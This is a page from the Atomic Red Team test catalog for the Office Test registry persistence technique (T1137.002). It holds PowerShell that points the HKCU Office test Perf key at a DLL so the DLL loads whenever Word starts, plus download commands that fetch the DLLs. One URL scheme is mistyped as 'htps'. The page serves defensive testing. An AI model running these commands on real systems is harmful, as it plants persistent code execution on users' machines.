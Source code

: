 ```yaml
---
tags: [T1137_002, atomic_test]
filename: "[[T1137.002 - Office Application Startup- Office Test]]"
---
```

# T1137.002 - Office Application Startup: Office Test

## Atomic Test #1 - Office Application Startup Test Persistence (HKCU)
Office Test Registry location exists that allows a user to specify an arbitrary DLL that will be executed every time an Office
application is started. Key is used for debugging purposes. Not created by default & exist in HKCU & HKLM hives.

**Supported Platforms:** Windows


**auto_generated_guid:** c3e35b58-fe1c-480b-b540-7600fb612563






#### Attack Commands: Run with `powershell`! 


```powershell
$wdApp = New-Object -COMObject "Word.Application"
if(-not $wdApp.path.contains("Program Files (x86)"))  
{
  Write-Host "64-bit Office"
  reg add "HKEY_CURRENT_USER\Software\Microsoft\Office test\Special\Perf" /t REG_SZ /d "PathToAtomicsFolder\T1137.002\bin\officetest_x64.dll" /f       
}
else{
  Write-Host "32-bit Office"
  reg add "HKEY_CURRENT_USER\Software\Microsoft\Office test\Special\Perf" /t REG_SZ /d "PathToAtomicsFolder\T1137.002\bin\officetest_x86.dll" /f
}
Stop-Process -Name "WinWord" 
Start-Process "WinWord"
```

#### Cleanup Commands:
```powershell
Stop-Process -Name "notepad","WinWord" -ErrorAction Ignore
Remove-Item "HKCU:\Software\Microsoft\Office test\Special\Perf" -ErrorAction Ignore
```



#### Dependencies:  Run with `powershell`!
##### Description: Microsoft Word must be installed
##### Check Prereq Commands:
```powershell
try {
  New-Object -COMObject "Word.Application" | Out-Null
  Stop-Process -Name "winword"
  exit 0
} catch { exit 1 }
```
##### Get Prereq Commands:
```powershell
Write-Host "You will need to install Microsoft Word manually to meet this requirement"
```
##### Description: DLL files must exist on disk at specified location
##### Check Prereq Commands:
```powershell
if ((Test-Path "PathToAtomicsFolder\T1137.002\bin\officetest_x64.dll") -and (Test-Path "PathToAtomicsFolder\T1137.002\bin\officetest_x86.dll")) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory "PathToAtomicsFolder\T1137.002\bin\" -Force | Out-Null
Invoke-Webrequest -Uri "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1137.002/bin/officetest_x64.dll" -UseBasicParsing -OutFile "PathToAtomicsFolder\T1137.002\bin\officetest_x64.dll"
Invoke-Webrequest -Uri "htps://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1137.002/bin/officetest_x86.dll" -UseBasicParsing -OutFile "PathToAtomicsFolder\T1137.002\bin\officetest_x86.dll"
```




<br/>
